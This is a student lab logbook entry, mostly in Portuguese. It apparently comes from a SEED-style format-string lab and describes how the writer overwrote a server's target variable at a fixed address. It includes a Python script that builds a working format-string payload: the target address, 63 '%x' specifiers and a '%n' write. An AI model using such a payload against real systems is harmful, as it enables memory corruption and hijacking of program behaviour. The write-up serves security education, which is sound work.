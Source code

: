 ## Task 3: Modifying the Server Program’s Memory
>The objective of this task is to modify the value of the target variable that is defined in the server program
(we will continue to use 10.9.0.5). The original value of target is 0x11223344. Assume that this
variable holds an important value, which can affect the control flow of the program. If remote attackers can
change its value, they can change the behavior of this program.

### 3.A: Change the value to a different value.
>In this sub-task, we need to change the content of
the target variable to something else. Your task is considered as a success if you can change it to a
different value, regardless of what value it may be. The address of the target variable can be found
from the server printout.

<div <div align="justify">
<p>
Para esta tarefa, primeiro tivemos que perceber qual o endereço da variável target. Para tal, através do output do servidor, conseguimos perceber que o endereço da variável target é 0x080e5068. </p>

![targetAdd](uploads/logbook7P5.png)

<p>
Com isto, conseguimos construir o nosso input, que seria constituido por 4 bytes que representam o endereço da variável target, seguido de 63 %x e um %n na posição 64. Assim, o nosso input foi gerado com o seguinte scrypt:
</p>

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# Find the address of the target variable and convert it to binary
secret_message_address = 0x080e5068
address_bytes = secret_message_address.to_bytes(4, byteorder='little')

# Store the secret message address at offset 4
content[0:4] = address_bytes

# This line shows the 63 %x followed by %n on the 64th position
s = ".%.8x"*63 + ".%n"

# Store the string s at offset 8
fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
    f.write(content)

```
